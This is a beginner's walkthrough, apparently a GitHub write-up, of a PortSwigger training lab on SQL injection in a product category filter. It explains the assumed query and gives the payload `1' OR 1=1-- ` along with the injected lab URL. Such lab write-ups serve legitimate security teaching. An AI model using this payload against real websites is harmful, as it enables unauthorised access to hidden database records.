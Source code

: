 # 🧪 Lab 1: SQL Injection vulnerability in WHERE clause allowing retrieval of hidden data

## 🎯 Objective

The lab contains a SQL injection vulnerability in the product category filter.  
We need to use SQL injection to **bypass the `released=1` filter** and retrieve **unreleased products** from the database.

---

## 🧠 What's Happening in the Backend?

The web app likely uses the following SQL query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1;
```
This means:

Only products with category 'Gifts' and released status 1 (true) will be shown.

Hidden or unreleased products (released = 0) are not displayed.

## 🗂 Sample Table (products.db)
| id | name          | category | price | released |
| -- | ------------- | -------- | ----- | -------- |
| 1  | Teddy Bear    | Gifts    | 500   | 1        |
| 2  | Smart Watch   | Gadgets  | 3000  | 1        |
| 3  | Perfume       | Gifts    | 1200  | 0 ❌     |
| 4  | Greeting Card | Gifts    | 100   | 1        |

## 🧪 Goal

We want to display all products, including the unreleased one (Perfume), which normally wouldn't show because released = 0.

## 💣 Injection Strategy
The original condition uses AND released = 1, which filters results.
To bypass it, we inject an OR-based true condition to override the filter:

## 🔐 Payload:
`1' OR 1=1-- `

Final injected query becomes:
`SELECT * FROM products WHERE category = '1' OR 1=1--' AND released = 1;`

Explanation:

'1' OR 1=1-- will always return TRUE, ignoring the rest of the query

-- comments out the remaining AND released=1

## 🧪 Step-by-Step Solution
Visit the lab and browse to the product filter section

In the URL or category parameter, change it like this:
`https://<lab-id>.web-security-academy.net/?category=1' OR 1=1--`
Press Enter

The page should now show all products, including the unreleased ones

## ✅ Lab Solved!

Using a basic OR 1=1 injection, we were able to:

Bypass the filtering logic

Display hidden/unreleased database entries

Successfully solve the lab


## 💡 Extra Notes for Beginners

| Symbol   | Use                                |
| -------- | ---------------------------------- |
| `'`      | Closes the string in SQL query     |
| `OR 1=1` | Always true condition              |
| `--`     | Comments out the rest of the query |
